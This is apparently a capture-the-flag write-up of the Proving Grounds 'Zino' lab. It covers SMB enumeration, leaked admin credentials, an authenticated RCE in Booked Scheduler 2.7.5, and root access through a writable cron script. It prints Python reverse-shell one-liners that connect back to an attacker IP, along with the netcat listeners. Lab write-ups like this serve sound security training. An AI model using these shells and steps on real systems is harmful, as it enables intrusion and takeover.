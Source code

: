 ```yaml
---
title: "Proving grounds Practice: Zino"
layout: post
date: 2024-03-07 02:00
categories: writeup
---
```


Proving grounds Practice - Zino CTF writeup.

# NMAP

```text
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql?
8003/tcp open  http        Apache httpd 2.4.38
```

## 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
## 445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

Found smb share.

```sh
	Sharename       Type      Comment
	---------       ----      -------
	zino            Disk      Logs
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.
```

```sh
naveenj@hackerspace:[10:16]~/proving_grounds/Zino$ smbclient //192.168.201.64/zino -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul  9 15:11:49 2020
  ..                                  D        0  Tue Apr 28 09:38:53 2020
  .bash_history                       H        0  Tue Apr 28 11:35:28 2020
  error.log                           N      265  Tue Apr 28 10:07:32 2020
  .bash_logout                        H      220  Tue Apr 28 09:38:53 2020
  local.txt                           N       33  Wed Oct 25 10:11:40 2023
  .bashrc                             H     3526  Tue Apr 28 09:38:53 2020
  .gnupg                             DH        0  Tue Apr 28 10:17:02 2020
  .profile                            H      807  Tue Apr 28 09:38:53 2020
  misc.log                            N      424  Tue Apr 28 10:08:15 2020
  auth.log                            N      368  Tue Apr 28 10:07:54 2020
  access.log                          N     5464  Tue Apr 28 10:07:09 2020
  ftp
```

Downloaded local.txt file.

auth.log

```sh
Apr 28 08:16:54 zino groupadd[1044]: new group: name=peter, GID=1001
Apr 28 08:16:54 zino useradd[1048]: new user: name=peter, UID=1001, GID=1001, home=/home/peter, shell=/bin/bash
Apr 28 08:17:01 zino passwd[1056]: pam_unix(passwd:chauthtok): password changed for peter
Apr 28 08:17:01 zino CRON[1058]: pam_unix(cron:session): session opened for user root by (uid=0)
```

misc.log

```sh
naveenj@hackerspace:[10:32]~/proving_grounds/Zino$ cat misc.log 
Apr 28 08:39:01 zino systemd[1]: Starting Clean php session files...
Apr 28 08:39:01 zino CRON[2791]: (CRON) info (No MTA installed, discarding output)
Apr 28 08:39:01 zino systemd[1]: phpsessionclean.service: Succeeded.
Apr 28 08:39:01 zino systemd[1]: Started Clean php session files.
Apr 28 08:39:01 zino systemd[1]: Set application username "admin"
Apr 28 08:39:01 zino systemd[1]: Set application password "adminadmin"
```

## 8003/tcp open  http        Apache httpd 2.4.38

Booked Scheduler v2.7.5 - search for exploit using searchsploit.

Booked Scheduler 2.7.5 - Remote Command Execution (RCE) (Authenticated)   | php/webapps/50594.py

**Credentials**

`admin:adminadmin`

As per the exploit...

- Direct to the below URL and upload reverse shell or remote code execution php file.

`http://192.168.201.64:8003/booked/Web/admin/manage_theme.php`

- Trigger shell at `http://192.168.201.64:8003/booked/Web/custom-favicon.php?cmd=id`.

Python2 reverese shell

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.232",22));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

- Url encode and send the request.

```sh
naveenj@hackerspace:[10:45]~/proving_grounds/Zino$ nc -lvnp 22
listening on [any] 22 ...
connect to [192.168.45.232] from (UNKNOWN) [192.168.201.64] 51696
$ id
id
```

Initial Foothold Obtained.

## Privilege Escalation


Download and run linpeas using port 8003

```sh
*/3 *   * * *   root    python /var/www/html/booked/cleanup.py
```
Cronjon running every 3 minutes.

**Python2 reverse shell**

```sh
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.232",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

Add the reverse shell code to cleanup.py file and wait for 3 minutes to get reverse connection.

```sh
naveenj@hackerspace:[11:13]~/proving_grounds/Zino$ nc -lvnp 21
listening on [any] 21 ...
connect to [192.168.45.232] from (UNKNOWN) [192.168.201.64] 35774
# 
```

**Root Obtained**

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).